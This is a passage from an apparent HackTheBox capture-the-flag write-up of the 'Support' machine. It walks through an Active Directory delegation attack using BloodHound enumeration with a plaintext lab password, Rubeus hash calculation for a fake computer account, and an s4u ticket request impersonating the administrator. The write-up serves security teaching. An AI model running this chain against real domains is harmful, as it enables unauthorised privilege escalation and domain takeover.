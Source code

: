

    oxdf@hacky$ bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174
    ...[snip]...
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: 0xdfFakeComputer.support.htb
    INFO: Querying computer: dc.support.htb
    WARNING: Could not resolve: 0xdfFakeComputer.support.htb: The DNS query name does not exist: 0xdfFakeComputer.support.htb.
    INFO: Done in 00M 14S



It calls out that it can't find 0xdfFakeComputer.support.htb, which
makes sense. It shows this new permission:

![](/img/image-20220527153649549.png)

#### Auth as Fake Computer

I'll use `Rubeus` to get the hash of my fake computer account:



    *Evil-WinRM* PS C:\programdata> .\Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb
       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.6.4

    [*] Action: Calculate Password Hash(es)

    [*] Input password             : 0xdf0xdf123
    [*] Input username             : 0xdfFakeComputer
    [*] Input domain               : support.htb
    [*] Salt                       : SUPPORT.HTB0xdffakecomputer
    [*]       rc4_hmac             : B1809AB221A7E1F4545BD9E24E49D5F4
    [*]       aes128_cts_hmac_sha1 : F7A01B9628299B9FB8A93CFCCF8E747C
    [*]       aes256_cts_hmac_sha1 : 90499A3696F8B07B9CDB02E919F193768519340F7812F6050177E6997262B6F0
    [*]       des_cbc_md5          : 76EF4F97ADD99176



I need the one labeled `rc4_hmac`, which I'll pass to `Rubeus` to get a
ticket for administrator:



    *Evil-WinRM* PS C:\programdata> .\Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:B1809AB221A7E1F4545BD9E24E49D5F4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
